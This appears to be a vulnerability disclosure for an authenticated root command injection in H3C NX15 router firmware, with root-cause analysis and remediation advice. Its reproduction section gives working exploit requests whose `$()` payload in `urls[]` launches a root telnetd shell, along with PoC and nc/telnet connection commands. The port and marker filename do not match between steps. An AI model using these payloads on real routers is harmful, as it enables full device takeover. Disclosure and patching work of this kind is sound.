









# H3C NX15 R017 `esps.filter.url.add` Authenticated Root Command Injection

## Summary

H3C NX15 Router firmware NX15V100R017 contains an authenticated command injection vulnerability in the `/api/esps` RPC object `esps.filter.url`, method `add`. The `urls[]` input reaches a shell `eval` assignment without safe quoting or sanitization, allowing an authenticated administrator to execute arbitrary commands as root.

## Vendor and Product

- Vendor: H3C
- Product: NX15 Router
- Affected firmware: NX15V100R017 / R017
- Component: `/api/esps` backend RPC
- Vulnerable object: `esps.filter.url`
- Vulnerable method: `add`
- Vulnerable parameter: `urls[]`

## Vulnerability Type

- OS command injection
- Suggested CWE: CWE-78
- Attack vector: Remote
- Authentication required: Yes
- Privileges required: Administrator web session
- User interaction required: No

## Impact

An authenticated attacker can execute arbitrary commands as root. Confirmed impact includes starting a root shell service and executing commands such as `id` and `uname -a` with UID 0.

## Technical Details

The vulnerable backend script reads user-controlled URL entries and stores them in dynamically named shell variables. In the `add` branch, the code path uses `eval` on attacker-controlled data:

```sh
json_get_var urlsStr ${idx}
eval urlsStr"${idx}"="${urlsStr}"
```

Later, the stored values are used while adding URL-filtering rules:

```sh
uci add_list urlfilter.rule"${_id}".urls="$(eval echo '$'"urlsStr${_idx}")"
```

The implementation intends to copy JSON array entries into indexed shell variables. However, if `urlsStr` contains shell command substitution syntax such as `$()`, the command is interpreted during the `eval` assignment.

The vulnerable branch is reachable through:

```text
POST /api/esps
object = esps.filter.url
method = add
```

The `/api/esps` entry point does not implement an object-level allowlist. After authentication, `/www/api` passes the HTTP body to:

```text
lua /usr/lib/lua/protol_cvt.lua magic_link '<request-body>'
```


Then `/usr/lib/lua/magic_link/magic_link.lua` maps external JSON fields directly to ubus:

```lua
["path"] = tostring(v.object)
["func"] = tostring(v.method)
["args"] = v.param
```

For this specific bug, one detail matters: the dangerous `eval` path is taken in the scheduled-rule branch where `mode` is non-empty. In the vulnerable script:

`usr/libexec/rpcd/esps.filter.url`

- line 318 checks whether `mode` is empty;

- lines 376-387 parse `urls[]` and execute `eval urlsStr"${idx}"="${urlsStr}"` when `mode` is present;

- lines 472 and 105-110 later call `add_Urls`, which expands the indexed values again with `eval echo`.


This is why the PoC sets `mode` to `white`: it intentionally forces the request into the branch that copies `urls[]` through `eval`.

## Firmware Paths for Audit

The following paths are firmware-internal paths relative to the extracted firmware root filesystem:

- `/www/api`: web API binary that accepts authenticated `/api/esps` requests and forwards them to ubus objects.
- `/usr/lib/lua/protol_cvt.lua`: Lua protocol bridge that decodes the JSON request and issues the ubus call.
- `/usr/lib/lua/magic_link/magic_link.lua`: direct `object/method/param` to `path/func/args` mapping for `/api/esps`.
- `/usr/libexec/rpcd/esps.filter.url`: vulnerable backend script; the `add` branch reads `urls[]` and reaches the unsafe `eval` assignment.
- `/etc/config/urlfilter`: UCI configuration file affected by URL-filter rule writes.

## Reproduction

Run the included PoC with valid administrator credentials:

```bash
python3 poc/postauth_esps_filter_url_rce.py \
  --base http://192.168.8.1 \
  --username admin \
  --password '<admin-password>' \
  --port 2323 \
  --cleanup
```

The PoC:

1. Logs in through `/api/login/auth`.
2. Calls `/api/esps` with object `esps.filter.url` and method `add`.
3. Places a command-substitution payload in `urls[]`.
4. Starts a temporary `telnetd` shell.
5. Connects to the shell and verifies root command execution.

Expected result:

```text
uid=0(root)
```

Manual request sequence:

1. Authenticate and obtain the `session` value from `POST /api/login/auth`.
2. Use that value in the `AUTHENTICATION` header and send:

```http
POST /api/esps HTTP/1.1
Host: 192.168.8.1
Content-Type: application/json
AUTHENTICATION: <session>

[{"id":1,"object":"esps.filter.url","method":"add","param":{"status":"enable","urls":["$(echo URLFILTER_RCE_OK >/tmp/urlfilter_rce_marker; /usr/sbin/telnetd -p 2323 -l /bin/sh >/dev/null 2>&1 &)"],"description":"urlfilter_rce_test","macs":[],"mode":"white","weekdays":[],"timeRange":[]}}]
```

3. Connect to the temporary listener and run `id`.

BurpSuite step-by-step reproduction:

1. Authenticate in Burp Repeater:

```http
POST /api/login/auth HTTP/1.1
Host: 192.168.8.1
User-Agent: Mozilla/5.0
Accept: application/json, text/plain, */*
Content-Type: application/json
Connection: close

{"username":"admin","password":"admin123"}
```

2. Extract `data.session` from the response and use it as:

```text
AUTHENTICATION: <SESSION>
```

3. Send the exploit request:

```http
POST /api/esps HTTP/1.1
Host: 192.168.8.1
User-Agent: Mozilla/5.0
Accept: application/json, text/plain, */*
Content-Type: application/json
AUTHENTICATION: <SESSION>
Connection: close

[{"id":1,"object":"esps.filter.url","method":"add","param":{"status":"enable","urls":["$(echo URLFILTER_RCE_OK >/tmp/urlfilter_rce_marker; /usr/sbin/telnetd -p 2323 -l /bin/sh >/dev/null 2>&1 &)"],"description":"urlfilter_rce_burp_2323","macs":[],"mode":"white","weekdays":[],"timeRange":[]}}]
```

4. Wait briefly and connect to the listener:

```bash
telnet 192.168.8.1 2329
```

or:

```bash
nc 192.168.8.1 2329
```

5. Run:

```sh
id
uname -a
cat /tmp/urlfilter_rce_marker_2329
```

6. Optionally enumerate the created rule:

```http
POST /api/esps HTTP/1.1
Host: 192.168.8.1
User-Agent: Mozilla/5.0
Accept: application/json, text/plain, */*
Content-Type: application/json
AUTHENTICATION: <SESSION>
Connection: close

[{"id":1,"object":"esps.filter.url","method":"getlist","param":{}}]
```

7. Delete the temporary rule after verification:

```http
POST /api/esps HTTP/1.1
Host: 192.168.8.1
User-Agent: Mozilla/5.0
Accept: application/json, text/plain, */*
Content-Type: application/json
AUTHENTICATION: <SESSION>
Connection: close

[{"id":1,"object":"esps.filter.url","method":"delete","param":{"list":[<RULE_ID>]}}]
```

## Evidence

- `/www/api` forwards authenticated `/api/esps` bodies into `protol_cvt.lua` in `magic_link` mode, and `magic_link.lua` maps `object/method/param` directly to ubus.
- In `/usr/libexec/rpcd/esps.filter.url`, the `mode`-enabled `add` branch copies `urls[]` through `eval` and later expands the indexed values again when adding UCI list entries.
- The available validation does not block command substitution syntax such as `$()`.
- Runtime verification confirmed that a payload in `urls[]` starts a root shell and executes commands as root.

## Attachments

- Report: `report/postauth_esps_filter_url_rce_report.md`
- PoC: `poc/postauth_esps_filter_url_rce.py`

## Remediation

- Remove `eval` from the URL-filtering backend script.
- Store JSON array values using safe shell quoting or a non-shell parser.
- Reject shell metacharacters in URL fields where they are not valid input.
- Restrict `/api/esps` to an allowlist of safe objects and methods.
